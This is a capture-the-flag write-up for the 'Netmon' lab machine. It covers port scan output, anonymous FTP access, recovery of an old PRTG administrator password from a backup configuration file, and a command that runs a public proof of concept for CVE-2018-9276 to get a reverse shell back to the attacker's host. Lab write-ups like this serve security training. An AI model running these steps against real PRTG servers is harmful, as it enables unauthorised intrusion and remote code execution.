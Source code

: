 # Netmon Write-Up

Easy

Tags:
`FTP`
`PRTG Network Monitor`


## Intro

1. Use ftp anonymous to get user flag
2. Find username and password of Administrator from backup file
3. Exploit cve-2018-9276

## Exploit

### Port scanning

```
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
```

### Use ftp anonymous to get user flag

## Privilege Escalation

Find version of prtg in page source
```
prtgversion=18.1.37.13946
```

Search vulnerability => [PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/46527)

PoC: [cve-2018-9276 github](https://github.com/wildkindcc/CVE-2018-9276)

```
optional arguments:
  -h, --help            show this help message and exit
  -i HOST, --host HOST  IP address / Hostname of vulnerable PRTG server
  -p PORT, --port PORT  Port number
  --lhost LHOST         LHOST for MSFVENOM
  --lport LPORT         LPORT for MSFVENOM
  --user USER           Administrator Username
  --password PASSWORD   Administrator Password
  --https               Negotiate SSL connection to the server (Requires
                        socket to be compiled with SSL support)
```

Find username and password of Administrator

Get `PRTG Configuration.old.bak` file in `/ProgramData/Paessler/prtg network monitor` via ftp

```
<dbpassword>
    <!-- User: prtgadmin -->
    PrTg@dmin2018
</dbpassword>
```

`PrTg@dmin2018` is old password!

Run PoC with Sudo

```
sudo python CVE-2018-9276.py -i 10.10.10.152 -p 80 --lhost 10.10.16.5 --lport 4444 --user prtgadmin --password PrTg@dmin2019
```